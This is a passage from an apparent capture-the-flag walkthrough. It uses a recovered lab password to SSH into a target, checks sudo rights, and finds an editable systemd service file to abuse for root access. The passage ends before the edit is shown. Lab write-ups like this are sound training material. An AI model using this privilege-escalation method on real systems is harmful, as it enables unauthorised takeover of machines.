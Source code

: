 ![](gitbook/cybersecurity/images/Pasted%20image%2020250609134802.png)

This is the password for the `server-admin` user:

```
server-admin:inuyasha
```

Let's go into ssh:

```
ssh server-admin@10.10.38.213
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250609134933.png) Now, we can begin privilege escalation.

## PRIVILEGE ESCALATION

***

Let's check our sudo privileges first:

```
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin:
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit
        /etc/systemd/system/duckyinc.service
```

So, we can edit the `/etc/systemd/system/duckyinc.service`, let's take a look at the service:

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

We can modify the service using `sudoedit`, let's do it:
